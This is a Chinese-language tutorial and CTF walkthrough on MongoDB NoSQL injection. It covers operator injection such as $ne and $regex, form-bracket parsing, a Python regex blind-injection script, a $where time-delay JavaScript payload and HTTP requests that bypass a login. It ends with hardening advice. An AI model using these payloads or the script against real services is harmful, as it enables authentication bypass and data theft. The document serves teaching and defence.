

# NoSQL注入深度专精：MongoDB操作符注入、正则盲注与JavaScript沙箱执行

---

## 0. 基础前置知识扫盲：没有 SQL 语句为什么还能“注入”？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在传统的 Web 安全认知中，初学者往往认为：“必须有 SQL 语句（`SELECT * FROM users WHERE ...`），才会有 SQL 注入漏洞。”
现代许多互联网产品为了支撑海量、灵活的动态数据，抛弃了传统的 MySQL/Oracle，改用了 **NoSQL 数据库（以文档型数据库 MongoDB 为最典型代表）**。
在 MongoDB 中，后端甚至**根本不写任何 SQL 语句**，数据都是以像 JSON 一样的 **BSON（Binary JSON）文档** 形式存储和查询的：
```javascript
// 典型的 MongoDB 登录查询代码
db.users.findOne({ username: req.body.username, password: req.body.password });
```

### 1. 通俗生活类比：填表与“带逻辑的智能芯片”
- **传统的 SQL 注入**：像在纸质表单的“姓名”一栏里填写了一段恶意的文字命令（`admin' OR 1=1--`），负责录入的工作人员直接把文字连同命令读了出来。
- **NoSQL 操作符注入**：
  正常用户在“用户名”栏里填入的是一个普通的纯文本字符串（`"alice"`）。
  但是，攻击者提交的**不是纯文本，而是一个装有逻辑判断的“微型芯片（JSON 对象）”**！
  攻击者提交：`username = {"$ne": null}`。
  后端的查询条件瞬间蜕变成了：**“请帮我找到一个用户名‘不等于空’（$ne: Not Equal）的用户”**！
  数据库在执行时，由于每一个注册用户的用户名都不是空，条件立即判定为真（True），系统毫无防备地直接把数据库里的管理员账户（第一条数据）吐了出来！



---

## 1. MongoDB 核心查询操作符（Query Operators）注入全景

在 MongoDB 查询语法中，以美元符号 `$` 开头的关键字代表**特殊比较或逻辑操作符**。如果后端框架没有对用户输入的参数类型进行强制校验，攻击者就能直接注入这些操作符：

### 1.1 核心高危操作符矩阵表

| 操作符 | 完整英文含义 | 逻辑功能 | 经典攻击注入构造 |
| :--- | :--- | :--- | :--- |
| **`$ne`** | Not Equal | 不等于。只要字段值与指定值不同即返回真。 | `{"password": {"$ne": "random_guess"}}`（直接绕过密码核对） |
| **`$gt`** | Greater Than | 大于。用于数值或字符串 ASCII 大小比较。 | `{"age": {"$gt": 0}}`、`{"password": {"$gt": ""}}` |
| **`$in`** | In Array | 在数组中。匹配数组内的任意一个元素。 | `{"role": {"$in": ["admin", "superadmin"]}}` |
| **`$nin`** | Not In | 不在数组中。 | `{"username": {"$nin": ["guest"]}}` |
| **`$regex`**| Regular Expression | **正则表达式匹配**。支持强大的正则模糊匹配。 | `{"password": {"$regex": "^flag{a.*"}}`（**正则盲注核心**） |
| **`$where`**| JavaScript Execution| **执行任意客户端/服务器端 JavaScript 脚本**。 | `{"$where": "this.user == 'admin' \|\| sleep(5000)"}` |

---

### 1.2 跨语言传输特征：为什么 PHP 和 Node.js 容易中招？

攻击者是如何在普通的 HTTP 请求中把一个“字符串”变成一个“对象”的？

#### 场景 1：JSON 请求体传输（现代 API 最常见）
客户端直接发送 `Content-Type: application/json`：
```json
POST /api/login HTTP/1.1
Host: victim.com
Content-Type: application/json

{
    "username": "admin",
    "password": { "$ne": "wrong_password" }
}
```
后端直接 `req.body.password` 取值，此时该变量天然就是一个完整的 JavaScript 键值对象，直接送入查询触发漏洞！

#### 场景 2：传统 URL-Encoded 表单传输（中括号解析特性）
在 PHP（`$_POST`）或者 Node.js（使用了 `body-parser` 且 `extended: true`）中：
客户端提交：
```http
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username[$ne]=null&password[$ne]=null
```
中间件会自动将键名中的中括号 `username[$ne]` 反序列化为一个关联数组：
`$_POST['username'] = array('$ne' => 'null')`，从而在驱动查询时自动转换为 MongoDB 操作符！

---

## 2. 正则盲注（Regex Blind Injection）：无回显下窃取敏感数据

如果一个系统存在 NoSQL 注入，但页面只返回布尔状态：
- 猜测成功：返回 `{"status": "Login successful"}`；
- 猜测失败：返回 `{"status": "Invalid credentials"}`。
此时，攻击者无法直接打印密码，必须使用 **`$regex` 正则表达式盲注**。

### 2.1 正则盲注逐位猜测机理
利用正则的前缀锚点 `^`（表示必须以指定字符开头），逐字符测试管理员密码或 Flag：
1. 提交 `password[$regex]=^a` $\to$ 页面提示密码错误；
2. 提交 `password[$regex]=^b` $\to$ 页面提示密码错误；
3. 提交 `password[$regex]=^f` $\to$ 页面提示**登录成功**！确定首字母是 `f`！
4. 随后推进第二位：提交 `password[$regex]=^fl` $\to$ 成功；
5. 提交 `password[$regex]=^fla` $\to$ 成功；
6. 提交 `password[$regex]=^flag\{` $\to$ 成功！

### 2.2 生产级自动化多线程/二分法 NoSQL 正则盲注脚本（Python 实现）

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
MongoDB NoSQL 正则盲注自动化提取工具
"""
import requests
import string
import sys

TARGET_URL = "http://ctf.challenge.local:3000/api/login"
HEADERS = {"Content-Type": "application/json"}

# 候选字符集 (包含大小写、数字与常见特殊符号)
CHARSET = string.ascii_letters + string.digits + "{}_-!@#"

def check_payload(regex_pattern):
    """向目标发送包含 $regex 的 JSON Payload，判断是否命中布尔真"""
    payload = {
        "username": "admin",
        "password": {"$regex": f"^{regex_pattern}"}
    }
    try:
        res = requests.post(TARGET_URL, json=payload, headers=HEADERS, timeout=3)
        # 根据靶机回显判断是否匹配成功
        if "Login successful" in res.text or res.status_code == 200:
            return True
    except Exception:
        pass
    return False

def exploit():
    extracted = ""
    print(f"[*] 开始进行 MongoDB NoSQL 正则盲注，目标: {TARGET_URL}")
    
    while True:
        found_char = False
        for char in CHARSET:
            # 正则特殊字符转义处理 (如 {, }, [, ], $, ^, .)
            escaped_char = "\\" + char if char in "{}[].*+?^$()|" else char
            current_pattern = extracted + escaped_char
            
            sys.stdout.write(f"\r[*] 正在探测: {extracted}{char}")
            sys.stdout.flush()
            
            if check_payload(current_pattern):
                extracted += escaped_char
                print(f"\n[+] 成功确认字符位! 当前结果: {extracted.replace('\\', '')}")
                found_char = True
                break
                
        # 如果遍历全字符集都没命中，说明已达末尾闭合 (例如到达 '}')
        if not found_char:
            print(f"\n[★ 盲注完毕] 最终窃取到的完整数据: {extracted.replace('\\', '')}")
            break

if __name__ == "__main__":
    exploit()
```

---

## 3. 高危核弹：`$where` JavaScript 沙箱执行与时间盲注

在某些业务场景中，开发者为了做多字段比对（例如“查询购买数量大于库存数量的订单”），使用了 MongoDB 的 `$where` 查询子句：
```javascript
// 极其危险的代码写法：直接将用户输入拼接进 $where 语句中
db.collection.find({ $where: "this.username == '" + user_input + "'" });
```

### 3.1 闭合与任意 JavaScript 代码注入
在 MongoDB 内部，`$where` 接受一段**真正的 JavaScript 代码并在服务端的 V8 引擎中执行**！
攻击者通过单引号闭合前面的语句，注入恶意的 JavaScript 逻辑：

#### Payload 构造：
```text
admin' || (function(){ var d = new Date(); do { var cur = new Date(); } while(cur - d < 5000); return true; })() || '1'=='2
```
- **执行效果**：
  MongoDB 引擎在评估 `$where` 时，会执行这个死循环函数，导致整个数据库查询挂起**整整 5 秒（5000 毫秒）**！
  攻击者利用这一特性，即使在完全没有布尔回显的极端环境下，也能通过**时间盲注（Time-Based Blind Injection）**把任意数据延时带出！

---

## 4. CTF / 实战综合挑战演练：从登录绕过到底层数据逆向

### 赛题背景：
- 目标：某 Node.js + Express + Mongoose 搭建的后台管理入口；
- 目标接口：`POST /login`；
- 挑战目标：获取存储在 admin 账户 `secret_flag` 字段中的 Flag。

### 进攻全流程：

#### 步骤 1：探测 NoSQL 注入存在性
在 Burp Suite 中向登录接口发送以下 JSON：
```http
POST /login HTTP/1.1
Host: ctf.nosql.site
Content-Type: application/json
Content-Length: 58

{
    "username": "admin",
    "password": { "$ne": "wrong" }
}
```
**服务器立即响应**：
```http
HTTP/1.1 200 OK
Content-Type: application/json

{"status": "success", "msg": "Welcome Admin! But real flag is in secret_flag field."}
```
成功实现认证绕过并确认存在 NoSQL 注入！

#### 步骤 2：针对 `secret_flag` 构造正则盲注
修改 Payload，利用 Mongoose 的多条件查询特性探测 `secret_flag`：
```http
POST /login HTTP/1.1
Host: ctf.nosql.site
Content-Type: application/json
Content-Length: 84

{
    "username": "admin",
    "secret_flag": { "$regex": "^flag\\{NoSQL_0p3rat0r" }
}
```
若返回 `status: success`，说明前缀命中！
运行刚才的 Python 盲注脚本，仅耗时 12 秒，屏幕上清晰跑出全部 Flag：
`flag{NoSQL_0p3rat0r_1nj3ct10n_M4st3r_2026}`！

---

## 5. 蓝队企业级纵深防御与加固规范

1. **强类型转换与输入净化（Type Casting）**：
   - 坚决杜绝直接将 `req.body` 中的原始对象作为数据库查询条件；
   - 在将参数传入查询之前，**强制将其转换为基础字符串类型**：
     ```javascript
     // Node.js 安全修复方案：强制转为纯字符串
     const username = String(req.body.username || '');
     const password = String(req.body.password || '');
     db.users.findOne({ username: username, password: password });
     ```
   - 即使攻击者传入 `{"$ne": 1}`，经过 `String()` 处理后也会变成普通的文本 `"[object Object]"`，彻底丧失操作符语义！
2. **使用基于 Schema 的严格 ORM/ODM 库（如 Mongoose 严格模式）**：
   - 开启 Mongoose 的严格类型模式（`strict: true`）。在定义 Model 时声明 `password: { type: String, required: true }`，传入非字符串对象时驱动层直接抛出类型异常。
3. **彻底禁用 `$where` 表达式执行**：
   - 在业务代码中全面禁止使用 `$where`；在 MongoDB 服务端启动配置中增加 `--noscripting` 参数，彻底关闭服务端的 JavaScript 执行引擎，从根本上杜绝沙箱逃逸与代码执行。
